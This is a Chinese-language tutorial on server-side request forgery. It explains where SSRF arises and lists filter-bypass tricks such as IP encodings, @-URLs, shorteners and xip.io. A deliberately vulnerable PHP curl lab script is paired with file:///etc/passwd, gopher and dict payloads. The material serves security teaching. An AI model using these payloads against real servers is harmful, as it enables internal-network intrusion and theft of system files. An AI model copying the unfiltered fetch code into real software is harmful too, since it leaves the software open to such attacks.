 # SSRF 服务器端请求伪造

`SSRF`服务端请求伪造漏洞，也称为`XSPA`跨站端口攻击，是一种由攻击者构造一定的利用代码导致服务端发起漏洞利用请求的安全漏洞，一般情况下`SSRF`攻击的应用是无法通过外网访问的，所以需要借助目标服务端进行发起，目标服务器可以链接内网和外网，攻击者便可以通过目标主机攻击内网应用。

## 描述

`SSRF`是利用漏洞伪造服务器端发起请求，从而突破客户端获取不到数据限制，通常攻击者通过伪造服务器请求与内网进行交互，从而达到探测内网，对内网进行攻击的目的，通常与多种攻击方式相结合。服务器端请求伪造攻击将域中的不安全服务器作为代理使用，这与利用网页客户端的跨站请求伪造攻击类似，例如处在域中的浏览器可作为攻击者的代理。  
在一些情况下由于业务需要，服务端程序需要从其他服务器应用中获取数据，例如获取图片、数据等，但是由于服务器没有对其请求的目标地址做过滤和限制，导致黑客可以利用此缺陷请求任意服务器资源，其中就包含隐匿在内网的应用。很多情况下认为服务器在内网不会受到黑客攻击，便放任漏洞不管，不做补丁修复和版本升级，弱口令遍布内网，在`SSRF`漏洞面前这些漏洞都会造成很大危害。`SSRF`漏洞一般为`HTTP／HTTPS`方式出现，但类似`TCP Connect`方式也可以探测内网的 IP 活跃状态和端口的开放情况，但此类危害较小。

### SSRF 漏洞易出现的场景

能够对外发起网络请求的地方，就可能存在`SSRF`漏洞。

- 从远程服务器请求资源`Upload from URL，Import & Export RSS Feed`。
- 数据库内置功能`Oracle、MongoDB、MSSQL、Postgres、CouchDB`。
- `Webmail`收取其他邮箱邮件`POP3、IMAP、SMTP`。
- 文件处理、编码处理、属性信息处理`ffmpeg、ImageMagic、DOCX、PDF、XML`。
- 通过`URL`地址分享页面。
- 未公开的`api`实现以及其他调用`URL`的功能。

### SSRF 漏洞的利用

- 可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的`banner`信息。
- 攻击运行在内网或本地的应用程序，比如溢出。
- 对内网`web`应用进行指纹识别，通过访问默认文件实现。
- 攻击内外网的`web`应用，主要是使用`GET`参数就可以实现的攻击，比如`Struts2`、`sqli`等。
- 利用`file`协议读取本地文件等。

### 绕过方式

#### 攻击本机

```
http://127.0.0.1:80
http://localhost:22
```

#### 利用@绕过

```
http://example.com@127.0.0.1
# 这里的example.com可以任意替换，
```

#### 利用短地址绕过

```
http://127.0.0.1可以变为http://suo.im/5UHEvD
# 转换地址有很多，可以采用http://tool.chinaz.com/tools/dwz.aspx
```

#### 特殊域名绕过

```
http://127.0.0.1.xip.io/
http://www.margin.com.127.0.0.1.xip.io/
```

#### 利用 Enclosed alphanumerics

```
ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ  >>>  example.com
List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳
⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇
⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛
⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵
Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ
ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ
⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴
⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```

#### 利用句号代替点绕过

```
127.0.0.1 变为127。0。0。1
```

#### 使用其他进制绕过

```
127.0.0.1
8进制格式：0177.0.0.1
16进制格式：0x7F.0.0.1
10进制整数格式：2130706433（转16进制，再转10进制）
16进制整数格式：0x7F000001
还有一种特殊的省略模式，例如127.0.0.1这个IP可以写成127.1、10.0.0.1这个IP可以写成10.1
```

#### 特殊域名绕过

```
DNS解析
http://127.0.0.1.xip.io/
# 会解析到本地的127.0.0.1
```

## 实验靶机示例

使用`PHP`构建靶机作为示例，编写如下代码`test.php`，实际上避免这类攻击的重要原则就是过滤用户输入即永远不要相信用户的输入。

```php
<?php
// 创建一个新curl资源
$ch = curl_init();
// 设置URL和相应的选项
curl_setopt($ch, CURLOPT_URL, $_GET['url']);
curl_setopt($ch, CURLOPT_HEADER, false);
// 抓取URL并把它传递给浏览器
curl_exec($ch);
//关闭cURL资源，并且释放系统资源
curl_close($ch);
```

### file 协议的运用

在上述示例中发起一个`GET`请求便可以获取敏感文件的信息。

```
http://192.168.163.150/test.php?url=file:///etc/passwd
```

### gopher 协议的运用

`gopher`协议是比`http`协议更早出现的协议，现在已经不常用了，但是在`SSRF`漏洞利用中`gopher`可以说是万金油，因为可以使用`gopher`发送各种格式的请求包，这样变可以解决漏洞点不在`GET`参数的问题了。  
基本协议格式：`URL:gopher://<host>:<port>/<gopher-path>`。  
进行如下请求可以发送一个`POST`请求，且参数`cmd`的值为`balabal`，这里构造`gopher`请求的时候，回车换行符号要进行`2`次`url`编码`%250d%250a`。

```
http://192.168.163.150/test.php?url=gopher://192.168.163.1:80/_POST%20/evil.php%20HTTP/1.1%250d%250aHost:%20192.168.163.1%250d%250aUser-Agent:%20curl/7.43.0%250d%250aAccept:%20*/*%250d%250aContent-Type:%20application/x-www-form-urlencoded%250d%250a%250d%250acmd=balabala
```

### dict 协议应用

`dict`协议是一个字典服务器协议，通常用于让客户端使用过程中能够访问更多的字典源，但是在`SSRF`中如果可以使用`dict`协议那么就可以轻易的获取目标服务器端口上运行的服务版本等信息。

```
http://192.168.163.150/test.php?url=dict://192.168.163.1:3306/info
```

## 每日一题

```
https://github.com/WindrunnerMax/EveryDay
```

## 参考

```
https://zhuanlan.zhihu.com/p/116039804
https://www.freebuf.com/column/157466.html
https://juejin.cn/post/6844903824948199431
https://www.cnblogs.com/bmjoker/p/9614789.html
https://blog.csdn.net/nz9611/article/details/96011013
https://zh.wikipedia.org/wiki/%E6%9C%8D%E5%8A%A1%E5%99%A8%E7%AB%AF%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0
```
